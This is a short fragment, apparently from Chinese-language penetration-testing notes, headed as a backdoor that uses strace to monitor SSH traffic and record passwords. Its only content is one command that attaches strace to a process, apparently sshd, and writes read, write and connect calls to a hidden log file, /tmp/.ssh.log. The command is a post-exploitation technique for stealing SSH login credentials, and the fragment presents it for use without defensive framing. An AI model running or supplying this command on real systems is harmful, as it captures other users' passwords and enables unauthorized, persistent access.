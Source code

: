 ## Strace监听SSH来源流量记录密码后门

```java
strace -f -p 9850 -o /tmp/.ssh.log -e trace=read,write,connect -s 2048
```

